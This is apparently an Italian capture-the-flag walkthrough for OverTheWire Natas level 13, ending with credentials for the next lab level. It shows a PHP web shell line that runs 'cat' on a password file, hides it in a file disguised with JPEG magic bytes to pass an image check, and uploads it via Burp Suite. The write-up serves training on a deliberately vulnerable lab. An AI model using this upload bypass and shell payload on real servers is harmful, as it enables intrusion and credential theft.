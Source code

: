 Quello che interessa particolarmente a noi è:

```php
} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
}
```

Qui lo script controlla la signature del file per scoprire se il file è effettivamente un'immagine o meno.
Creiamo quindi un nuovo script `payload.jpeg`.

```php
many_bits

<?=shell_exec("cat /etc/natas_webpass/natas13");?> 
```

La signature dei file jpg è: `FF D8 FF DB`.
Possiamo scoprirlo cercando su: _https://en.wikipedia.org/wiki/List_of_file_signatures_
Apriamo un editor esadecimale (come hexedit su linux o https://hexed.it/).

![](https://i.postimg.cc/gc7CsYwP/natas13-2.png)

Dovremo ritrovarci più o meno così.
Modifichiamo i primi valori (_6D 61 6E 79_) con quelli della signature jpg `FF D8 FF DB`.
Quindi:

![](https://i.postimg.cc/fy11RK4b/natas13-3.png)

Ora usciamo (_CTRL+X_) salvando il file (_y_).
E siamo pronti per eseguire l'esatta procedura per il precedente esercizio:
Carichiamo il file con il proxy Burp Suite collegato:

![](https://i.postimg.cc/3wKrhKCc/natas13-4.png)

![](https://i.postimg.cc/Hk0WFJ5M/natas13-5.png)

Click su `Forward`.

![](https://i.postimg.cc/fRQTH73Z/natas13-6.png)

Click sul link.

![](https://i.postimg.cc/gkZ2qt2N/natas13-7.png)

Bang!

## Natas 14 :: 15
> _User:_ natas14

> _Pass:_ Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

> _URL:_ http://natas14.natas.labs.overthewire.org

![](https://i.postimg.cc/MpX2mv5x/natas14.png)
